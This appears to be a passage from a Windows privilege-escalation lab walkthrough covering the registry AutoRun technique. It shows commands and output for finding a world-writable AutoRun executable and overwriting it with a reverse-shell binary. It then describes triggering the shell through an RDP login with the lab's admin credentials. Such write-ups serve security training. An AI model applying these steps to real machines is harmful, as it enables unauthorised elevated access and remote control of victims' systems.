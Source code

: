 

## **Registry** 

### **AutoRuns**



- Query the registry for AutoRun executables:

```powershell
C:\PrivEsc>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```


- Using `accesschk.exe`, note that one of the AutoRun executables is writable by everyone:

```powershell
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"


AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone # <= Confirmed
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```


- Copy the reverse shell executable created and overwrite the AutoRun executable with it:


```powershell
C:\PrivEsc>copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

        1 file(s) copied.
```


- Start up your listener
- In a real world assessment you would have to wait for an administrator to log in themselves
- Sometimes just spawning a RDP session gives us a reverse shell : ``rdesktop 10.10.240.109``
- However we are given admin creds here (`admin/password123`) so log in via a new RDP session

